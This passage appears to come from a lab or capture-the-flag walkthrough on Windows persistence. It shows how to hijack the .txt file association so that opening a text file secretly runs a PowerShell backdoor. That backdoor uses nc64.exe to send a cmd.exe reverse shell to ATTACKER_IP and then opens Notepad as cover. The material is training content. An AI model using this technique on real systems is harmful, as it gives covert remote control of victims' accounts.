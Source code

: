 In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![task3-backdoor-progid](./images/task3-backdoor-progid.png)

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

![task3-flag2](./images/task3-flag2.png)

### Answer the questions below

* Modify Executable Files

    * Download file executeable with high chances that the user might use it frequently

        ![task3-download](./images/task3-download.png)
    